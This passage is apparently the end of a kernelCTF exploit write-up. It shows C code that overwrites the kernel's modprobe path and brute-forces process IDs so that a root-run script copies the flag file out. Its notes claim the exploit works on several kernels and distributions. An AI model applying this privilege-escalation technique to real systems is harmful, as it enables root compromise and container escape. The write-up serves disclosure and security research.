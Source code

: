 Since we don't know the PID of the current process in the root namespace, we bruteforce it. For each iteration, we set the modprobe path to `"/proc/<i>/root/tmp/evil"`, and trigger modprobe. 

When the attacking task PID is found, the kernel will execute our malicious payload, and the flag will be copied to the memfd file descriptor of the task:

```c
#define MODPROBE_PAYLOAD \
    "#!/bin/bash\n" \
    "pid=$(echo \"$0\" | sed -E 's|/proc/([0-9]+)/.*|\\1|')\n" \
    "cat /flag > /proc/$pid/fd/696\n"

// ...

int modeprobe_exec(void) {
	// ...
	for (int pid = MODPROBE_MIN_PID; pid < MODPROBE_MAX_PID; pid++) {
        snprintf(evil_path, sizeof(evil_path), "/proc/%d/root/tmp/evil", pid);
        write_file(MODPROBE_PATH, evil_path, strlen(evil_path));

        execve("/tmp/trigger", NULL, NULL);
        fstat(696, &st);

        if (st.st_size > 0) {
            puts("pwned");
            read(696, flag, st.st_size);
            printf("%s\n", flag);
            sleep(1);
            exit(0);
        }
    }
    return 0;
}
```

# Additional Notes

This exploit is portable and works on LTS 6.6.*, COS 105, COS 109 and Debian 12. It only requires minor modifications to work on Ubuntu (due to Kmalloc Random Caches). The success rate is close to 10/10 on kernelCTF instances.

To our knowledge, the techniques used in this exploit, especially the RBTree pointer copy primitive, are not documented. Maybe there's some sort of novelty?

